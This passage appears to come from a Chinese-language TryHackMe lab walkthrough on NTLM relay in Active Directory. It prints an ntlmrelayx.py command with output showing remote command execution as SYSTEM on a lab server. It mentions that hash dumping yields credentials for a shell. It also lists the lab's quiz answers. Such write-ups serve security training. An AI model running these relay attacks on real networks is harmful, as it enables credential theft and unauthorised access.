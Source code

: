 你的攻击者 IP 应该与你的 tunX 接口对应于该网络。如果一切顺利，你应该已经收到了一个身份验证尝试并且成功中继到了 THMSERVER1。

```shell title="Terminal"
thm$ python3.9 ntlmrelayx.py -smb2support -t smb://"THMSERVER1 IP" -c 'whoami /all' -debug
[*] Servers started, waiting for connections
[*] SMBD-Thread-5: Received connection from 172.31.1.202, attacking target smb://172.31.1.201
[*] Authenticating against smb://172.31.1.201 as ZA/THMSERVER2$ SUCCEED
[+] No more targets
[*] SMBD-Thread-7: Connection from 172.31.1.202 controlled, but there are no more targets left!
[+] No more targets
[*] SMBD-Thread-8: Connection from 172.31.1.202 controlled, but there are no more targets left!
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[+] ExecuteRemote command: %COMSPEC% /Q /c echo whoami /all ^> %SYSTEMROOT%\Temp\__output > %TEMP%\execute.bat & %COMSPEC% /Q /c %TEMP%\execute.bat & del %TEMP%\execute.bat
[*] Executed specified command on host: 172.31.1.201

USER INFORMATION
----------------

User Name           SID
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384
[...]
```

这个输出类似于使用了 `-c 'whoami /all'` 命令的情况。然而，通过不指定命令，你现在已经执行了一个哈希转储。这些凭据现在可以用来在主机上获取一个 Shell！

:::info Answer the questions below

默认情况下，Windows 计算机帐户的密码多久轮换一次（以天为单位）？

```plaintext
30
```

如果我们想要中继 SMB 身份验证尝试，不应该强制执行哪些操作？

```plaintext
SMB Signing
```


[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami